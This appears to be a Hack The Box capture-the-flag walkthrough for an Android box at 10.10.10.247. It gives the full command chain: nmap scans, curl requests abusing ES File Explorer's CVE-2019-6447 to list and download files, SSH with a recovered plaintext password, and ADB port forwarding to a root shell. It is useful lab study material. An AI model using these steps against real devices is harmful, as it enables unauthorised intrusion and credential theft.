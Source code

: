 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.247
nmap -p 2222,38925,42135,59777 -sCV -oA scans/nmap-tcpscripts 10.10.10.247
```

---

## 🛡️ CVE-2019-6447 — ES File Explorer
```bash
# Test access
curl 10.10.10.247:59777

# Enumerate files
curl 10.10.10.247:59777 -d '{"command": "listFiles"}'

# List images (look for creds.jpg)
curl 10.10.10.247:59777 -d '{"command": "listPics"}'

# Download image with password
python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
```

---

## 🗑️ [Shell](SSH) as kristi
```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247

# Look for user.txt
cd /storage/emulated/0
cat user.txt
```

---

## 🤎 Enumeration as kristi
```bash
netstat -tnlp  # confirm port 5555 is open
```

---

## ⚖️ ADB Setup (Port Forwarding)
```bash
# Reconnect SSH with port forward
ssh -L 5555:localhost:5555 -p 2222 kristi@10.10.10.247

# On local machine
adb connect localhost:5555
adb devices
adb shell
```

---

## 🤐 Root Access via ADB
```bash
adb shell
su

# Locate and read flag
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

---

## 📑 Resources
- CVE-2019-6447: ES File Explorer RCE
- ADB: Android Debug Bridge over SSH Tunnel
- ES File Explorer Exploit Script: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln